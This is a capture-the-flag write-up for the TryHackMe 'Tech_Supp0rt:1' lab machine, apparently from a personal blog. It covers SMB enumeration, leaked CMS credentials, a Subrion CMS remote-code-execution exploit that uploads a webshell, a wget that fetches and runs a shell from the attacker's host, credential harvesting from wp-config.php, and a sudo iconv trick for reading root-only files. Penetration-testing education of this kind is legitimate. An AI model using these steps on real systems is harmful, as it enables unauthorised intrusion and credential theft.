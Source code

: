 ```yaml
---
layout: default
title: Tech_Support:1
description: THM - Tech_Supp0rt:1
---
```


## Enumeration

Fired up nmap and gobuster.

```
Nmap scan report for <IP>
Host is up (0.067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
```
/wordpress       (Status: 301) [Size: 316]
/test            (Status: 301) [Size: 311]
/server-status   (Status: 403) [Size: 277]
```
### SMB Enumeration:
```
 Disk                            Permissions
----                             -----------
print$                            NO ACCESS
websvr                            READ ONLY
IPC$                              NO ACCESS
```
Before checking out the web pages, I'll access the “websvr” share and see if there's anything juicy inside.

```
smbclient -N //<IP>/websvr

smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5693200 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```

Now this is interesting. We found Subrion credentials. I'll throw them into Cyberchef and see what pops up.

![CyberChef](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/1.png)

We now have the Subrion CMS admin credentials. Let's look around on the website.

first I tried accessing “/subrion”, but then, when it wasn't working, I went backwards, and noticed the entry in “enter.txt”, which states that “/subrion”
doesn't work, and to use the panel. So i tried the next best thing. “/subrion/panel”.
And what do you know! It worked!

![Subrion Panel](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/2.png)

Now, this CMS gracefully provided us with the version, so it won't hurt looking for a CVE, right ?
Bingo!
CVE-2018-19422-SubrionCMS-RCE

Let's try logging in with the credentials we gathered, because the exploit requires authentication.

(Meanwhile I also enumerated the wordpress site and found the user “support”. I'll save it, maybe it'll come in handy)

Aaaand we logged in:

![Subrion Dash](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/3.png)

## Exploitation

Let's try the RCE.

```
python3 SubrionRCE.py -u http://<IP>/subrion/panel/ -l admin -p [REDACTED]
[+] Trying to connect to: http://<IP>/subrion/panel/
[+] Success!
[+] Got CSRF token: [REDACTED]
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: mwfyhhiowaujnqk

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://<IP>/subrion/panel/uploads/mwfyhhiowaujnqk.phar

$ whoami
www-data
```
I then uploaded another shell, because this one is a bit fucky, and upgraded using a python TTY
```
$ wget http://10.18.116.220:8000/shell.php

$ ls
mwfyhhiowaujnqk.phar
shell.php
zrqcdnixvfcwxop.phar

$ php shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/$
```
We cd into the /opt directory, empty.
Cd into the /home directory, there's the scamsite directory with the “enter.txt” file we found earlier.

So i'll start looking for SUID binaries, since we don't have sudo permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
No luck there, so we start snooping around. You can check default locations, or you can use linpeas.
I opted for linpeas.
```
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
```
And what do you know, it found a pasword for the user “support”. I'll try to ssh into the machine using the “scamsite” user that we found, and this password.
Aaand it worked.

Let's see what we can do from this user. First of all, I'm gonna ssh into the machine for a more stable shell.

## Privilege Escalation:
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
scamsite may use iconv to read files. We could use it to read and crack the /etc/shadow file, or the id_rsa from the root folder. But that's not necessary for proof of completion, so we'll just read "/root/root.txt"
```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```
And we got the flag!

![Flag](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/4.png)


[back](./)
